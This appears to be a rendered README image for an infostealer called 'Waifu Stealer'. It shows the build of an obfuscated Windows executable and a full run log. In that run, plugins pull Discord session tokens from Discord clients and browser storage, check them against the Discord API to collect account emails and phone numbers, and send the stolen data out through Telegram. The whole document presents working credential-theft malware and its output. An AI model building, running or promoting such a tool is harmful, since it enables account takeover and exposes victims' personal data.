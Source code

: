 ```

PS C:\Users\x\waifu-stealer> npm run pkg-windows

> pkg-windows
> pkg --targets node18-win-x64 --compress GZip --output hello.exe obfuscated/package.json

> pkg@5.8.0
compression:  GZip

PS C:\Users\x\waifu-stealer> .\hello.exe
Welcome to Waifu Stealer!
HWID: xxxxxxxxxxxxxxxxxxxxxxx1234567890
Loading plugins...
  [discord-stealer-plugin]... OK! ✌️
  [telegram-stealer-plugin]... OK! ✌️

Loaded plugins: [discord-stealer-plugin], [telegram-stealer-plugin]

Let's go! 💥


Running plugin [discord-stealer-plugin]! ⭐
Look in Discord Client - C:\Users\x\AppData\Roaming\discord\Local Storage\leveldb
  Found token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Skip Discord Canary Client (not found) - C:\Users\x\AppData\Roaming\discordcanary\Local Storage\leveldb
Skip Discord PTB Client (not found) - C:\Users\x\AppData\Roaming\discordptb\Local Storage\leveldb
Skip Opera (not found) - C:\Users\x\AppData\Roaming\Opera Software\Opera Stable\Local Storage\leveldb
[...]
Skip Chrome (not found) - C:\Users\x\AppData\Local\Google\Chrome\User Data\Default\Local Storage\leveldb
Skip Epic Privacy Browser (not found) - C:\Users\x\AppData\Local\Epic Privacy Browser\User Data\Local Storage\leveldb
Look in Firefox - C:\Users\x\AppData\Roaming\Mozilla\Firefox\Profiles
  Found token NDMxNzxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
  Found token NDMxNzxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Check Discord tokens using the API
  Checking token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    Found user hello#1234 (id=123456789123456789, email=xxxxxx@gmail.com, phone=+4161234123)
  Checking token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    Found user qwerty#9876 (id=223456789123456789, email=yyyyyyy@gmail.com, phone=+622284129302)
  Checking token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    Token is invalid or expired
  Checking token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    Found user xdxdxd#4567 (id=323456789123456789, email=zzzzzz@gmail.com, phone=null)

[discord-stealer-plugin] sent a message via Telegram: ``NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx`
User: `hello#1234`
ID: `123456789123456789`
Email: xxxxxx@gmail.com
Phone: +41646211152
Email verified: true
MFA Enabled: true
Bot: false

`NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx`
User: `qwerty#9876`
ID: `223456789123456789`
Email: yyyyyyy@gmail.com
Phone: +6287895939302
Email verified: true
```